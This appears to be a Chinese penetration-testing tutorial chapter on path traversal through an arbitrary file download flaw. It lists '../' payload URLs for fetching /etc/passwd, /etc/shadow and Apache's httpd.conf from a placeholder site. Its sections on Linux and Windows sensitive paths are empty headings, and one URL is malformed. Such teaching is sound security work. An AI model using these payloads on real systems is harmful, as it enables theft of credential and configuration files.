 # 14.路径遍历漏洞三

如果系统存在**任意文件下载漏洞**，那么作为一个渗透测试工程师，怎么才能够成功入侵系统呢？

> 漏洞URL：http://example.com/download?file=backup.zip

##14.1 /etc/passwd & /etc/shadow

 **/etc/passwd**和**/etc/shadow**是linux系统下的存储用户与密码的文件，虽然密码是加密过的，我们不烦尝试把它们下载下来。
 
首先，我们先使用**../**进行不断地尝试，使它指向根目录。我们可以依次使用以下路径进行尝试：
 ```
http://example.com/download?file=../../etc/passwd
http://example.com/download?file=../../../etc/passwd
http://example.com/download?file=../../../../etc/passwd
http://example.com/download?file=../../../../../etc/passwd
http://example.com/download?file=../../../../../../etc/passwd
http://example.com/download?file=../../../../../../../etc/passwd
 ```
 
只要系统存在**任意文件下载漏洞**，且权限允许的情况下，使用不同个数的**../**不断地进行尝试，我们最终总会返回到根目录，然后下载/etc/passwd文件。

当然，有安全意识的运维人员，可能并不会为Web服务器赋予root等系统管理员权限，所以会导致我们下载失败，这时候，我们尝试下载一些低权限的文件并确认漏洞可用，假如Web应用运行在Apache下，那么我们可以肯定Apahce对其自己的配置文件必然有读权限，所以我们可以尝试下载Apache的配置文件,例如：

> http://example.com/download?file../../../../../etc/httpd/conf/httpd.conf

以下罗列以下在Linux环境下的敏感文件，由于Linux版本不尽相同，此内容仅供参考。

##14.2 Linux敏感文件路径


----------


----------


----------


----------


##14.3 Windows敏感文件路径